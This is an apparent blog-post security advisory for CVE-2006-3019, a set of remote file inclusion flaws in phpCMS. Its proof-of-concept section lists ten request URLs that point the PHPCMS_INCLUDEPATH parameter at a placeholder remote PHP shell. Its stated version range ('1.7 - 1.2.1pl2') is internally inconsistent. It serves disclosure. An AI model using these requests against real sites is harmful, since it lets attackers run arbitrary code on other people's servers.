 ```yaml
---
layout: post
title:  "CVE-2006-3019 – phpCMS <= 1.2.1pl2 Multiple Vulnerabilities"
date:   2006-06-12 00:00:00
categories: security cve
permalink: post/CVE-2006-3019-phpcms-multiple-vulnerabilities/
---
```


### Vendor

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

[http://www.phpcms.de/][phpcms]

[phpcms]:	http://www.phpcms.de/	"phpCMS"

### Description

Multiple PHP remote file inclusion vulnerabilities in `phpCMS 1.7 - 1.2.1pl2` (other versions may also be affected) allow remote attackers to execute arbitrary PHP code via a URL in the `PHPCMS_INCLUDEPATH` parameter.

### Affected Files

* (1) class.parser_phpcms.php,
* (2) class.session_phpcms.php,
* (3) class.edit_phpcms.php,
* (4) class.http_indexer_phpcms.php,
* (5) class.cache_phpcms.php,
* (6) class.search_phpcms.php,
* (7) class.lib_indexer_universal_phpcms.php,
* (8) class.layout_phpcms.php,
* (9) parser/plugs/counter.php,
* (10) parser/parser.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/[pc_path]/parser/include/class.parser_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
2. http://localhost/[pc_path]/parser/include/class.session_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
3. http://localhost/[pc_path]/parser/include/class.edit_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
4. http://localhost/[pc_path]/parser/include/class.http_indexer_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
5. http://localhost/[pc_path]/parser/include/class.cache_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
6. http://localhost/[pc_path]/parser/include/class.search_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
7. http://localhost/[pc_path]/parser/include/class.lib_indexer_universal_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
8. http://localhost/[pc_path]/parser/include/class.layout_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
9. http://localhost/[pc_path]/parser/plugs/counter.php?PHPCMS_INCLUDEPATH=
**~**
10. http://localhost/[pc_path]/parser/parser.php?PHPCMS_INCLUDEPATH=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3019][mitre]
* [http://www.securityfocus.com/bid/21768][securityfocus]
* [http://www.osvdb.org/26388][osvdb]
* [http://secunia.com/advisories/20573][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3019 "CVE 2006-3019"
[securityfocus]:	http://www.securityfocus.com/bid/21768						"SecurityFocus-21768"
[osvdb]:			http://www.osvdb.org/26388									"OSVDB-26388"
[secunia]:			http://secunia.com/advisories/20573							"Secunia-20573"